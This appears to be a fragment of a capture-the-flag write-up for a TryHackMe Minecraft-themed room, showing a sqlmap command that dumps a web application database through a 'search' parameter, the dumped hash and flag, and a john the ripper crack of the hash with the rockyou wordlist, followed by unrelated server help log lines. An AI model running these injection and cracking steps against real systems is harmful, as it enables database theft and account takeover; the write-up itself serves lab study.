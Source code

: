 ![image.png](image%203.png)

`sqlmap --random-agent -r sqlmapreq.txt --dump-all --batch -p 'search' -D webapp`

```jsx
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+
```

> **Password Cracking Phase**
> 

`echo '88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01' > ultimatehash`

`sudo john ultimatehash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1`

```jsx
diamond123456789 (?)
```

> **Internal System Access Phase**
> 


[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.
